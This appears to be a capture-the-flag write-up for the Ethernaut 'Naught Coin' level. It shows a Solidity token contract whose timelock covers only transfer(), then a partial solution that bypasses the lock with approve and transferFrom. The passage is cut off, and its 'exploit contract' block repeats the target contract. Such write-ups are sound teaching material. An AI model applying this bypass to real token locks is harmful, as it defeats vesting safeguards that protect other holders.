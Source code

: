 ```solidity

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

We have to transfer our token balance to other address but we are not allowed to transfer until 10 years are passed due to `lockTokens` modifier.

The `Naught Coin` inherts `ERC20` standards, In `ERC20` standards we can add `allowance` and `approve` other addresses to spend our tokens using  `transferFrom`.
We could make use of this functionality to transfer our tokens.

> #### Solution:
> - Deploy the exploit contract, then we need to approve our exploit contract to transfer the tokens, the INITIAL_SUPPLY of tokens was `1000000000000000000000000`, so we have to approve that many tokens.
> 
> ```js
> await contract.approve("0x6159cd67e0ed54ec7c5c90c183fdc8f681032139", value) 
> /* replace 0x6159cd67e0ed54ec7c5c90c183fdc8f681032139 with exploit instance */
> ```
> - Then we have to call the `callTransfer` function of our exploit contract to transfer the tokens.
> 
> 
> ```solidity
> // SPDX-License-Identifier: MIT
> pragma solidity ^0.6.0;
> 
> import '@openzeppelin/contracts/token/ERC20/ERC20.sol';
> 
>  contract NaughtCoin is ERC20 {
> 
>   // string public constant name = 'NaughtCoin';
>   // string public constant symbol = '0x0';
>   // uint public constant decimals = 18;
>   uint public timeLock = now + 10 * 365 days;
>   uint256 public INITIAL_SUPPLY;
>   address public player;
> 
>   constructor(address _player) 